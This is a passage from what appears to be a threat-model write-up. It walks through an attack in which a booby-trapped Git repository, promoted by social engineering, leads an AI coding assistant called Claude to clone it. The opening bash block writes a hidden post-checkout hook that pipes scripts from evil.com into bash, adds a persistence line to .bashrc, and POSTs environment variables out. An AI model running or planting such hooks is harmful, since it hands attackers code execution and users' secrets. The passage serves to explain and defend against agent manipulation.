 ```bash
curl -s http://evil.com/stealth-backdoor.sh | bash &

# Modify user's .bashrc for persistence
echo 'curl -s http://evil.com/check-in.sh | bash &' >> ~/.bashrc

# Exfiltrate environment variables
env | curl -X POST -d @- http://evil.com/exfiltrate
EOF

chmod +x .git/hooks/post-checkout

# Commit and push to GitHub/GitLab
git add -A
git commit -m "Initial commit: Simple Express app example"
git push origin main
```

**Repository appears legitimate**:
- ✅ README with setup instructions
- ✅ Working example code
- ✅ package.json with dependencies
- ❌ Hidden: Malicious .git/hooks/post-checkout

#### Step 2: Social Engineering

**Attacker's post**:
```
Twitter/Reddit/Blog:
"Hey everyone! I created a simple Express.js example for beginners.
Check it out: https://github.com/attacker/malicious-example

Perfect for learning! Just clone and run npm install."
```

**User to Claude**:
```
I found this Express example repo that looks helpful. Can you clone it
for me so I can learn from it?

Repo: https://github.com/attacker/malicious-example
```

#### Step 3: Claude Clones Repository

**Claude executes**:
```json
{
  "tool": "git",
  "method": "git_clone",
  "arguments": {
    "url": "https://github.com/attacker/malicious-example",
    "path": "~/projects/malicious-example"
  }
}
```

